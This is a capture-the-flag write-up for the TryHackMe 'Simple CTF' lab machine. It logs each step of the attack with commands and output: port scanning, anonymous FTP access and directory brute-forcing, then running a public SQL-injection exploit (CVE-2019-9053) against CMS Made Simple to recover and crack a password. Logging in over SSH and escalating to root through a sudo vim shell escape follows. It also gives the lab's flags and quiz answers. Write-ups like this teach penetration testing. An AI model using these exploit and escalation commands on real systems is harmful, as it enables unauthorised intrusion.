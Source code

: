 # Simple CTF  [THM]

Let see what's running on this machine 

```bash
nmap -sV -A -Pn 10.10.219.139

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-25 23:33 GMT
Nmap scan report for 10.10.219.139
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.21.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.05 seconds
```

### 1. How many services are running under port 1000?
2

### 2. What is running on the higher port?
ssh

  
---
  

We know know that we have SSH, HTTP and FTP on this machine.
Let see what we can retrieve while checking for services. 

```bash
ftp 10.10.219.139
Connected to 10.10.219.139.
220 (vsFTPd 3.0.3)
Name (10.10.219.139:clobee): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -ail
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls -ail
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.

ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (964.9368 kB/s)

ftp> exit
221 Goodbye.
```

```bash
cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Using Gobuster we were able to discover these folders

```bash
gobuster dir -u http://10.10.219.139:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/simple (Status: 301)
```

Visiting `http://10.10.219.139:80/simple` we know that we are working with CMSMadeSimple (maybe version 2.2.8)

```bash
gobuster dir -u http://10.10.219.139:80/simple -w /usr/share/wordlists/dirb/common.txt -x .bak, .sql, .log

/.hta (Status: 403)
/.hta. (Status: 403)
/.hta.bak (Status: 403)
/.htaccess (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess. (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd. (Status: 403)
/admin (Status: 301)
/assets (Status: 301)
/doc (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/uploads (Status: 301)
``` 

Let search the exploit database for any information about this CMS version

```bash
searchsploit cms made simple 2.2.8

----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                             | php/webapps/46635.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
searchsploit -p 46635

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

```bash
searchsploit -m 46635

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/clobee/tmp/46635.py
```

### 4. What's the CVE you're using against the application?

```bash
head /home/clobee/tmp/46635.py

#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
```

### 5. To what kind of vulnerability is the application vulnerable?
SQL Injection (SQLI)


### 6. What's the password?

```bash
python 46635.py -u http://10.10.219.139:80/simple --wordlist=/usr/share/wordlists/rockyou.txt -c


[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

### 7. Where can you login with the details obtained?

The user found works for `http://simple_ctf.thm/simple/admin`
and also for SSH. 

This confirm what we found earlier during the FTP enumeration.

### 8. What's the user flag?

```bash
ssh mitch@10.10.219.139 -p 2222

The authenticity of host '[10.10.219.139]:2222 ([10.10.219.139]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.219.139]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.219.139's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190

$ id
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

$ cat /home/mitch/user.txt                                                                                                             
G00d j0b, keep up!
```

### 9. Is there any other user in the home directory? What's its name?

```bash
$ ls /home                                                                                                                             
mitch  sunbath
```

### 10. What can you leverage to spawn a privileged shell?

```bash
$ sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```

### 11. What's the root flag?

```bash
# ls -ail /root/
total 28
1044482 drwx------  4 root root 4096 aug 17  2019 .
      2 drwxr-xr-x 23 root root 4096 aug 19  2019 ..
1044484 -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
 261530 drwx------  2 root root 4096 aug 17  2019 .cache
 261525 drwxr-xr-x  2 root root 4096 aug 17  2019 .nano
1044485 -rw-r--r--  1 root root  148 aug 17  2015 .profile
1044582 -rw-r--r--  1 root root   24 aug 17  2019 root.txt

# cat /root/root.txt
W3ll d0n3. You made it!
```
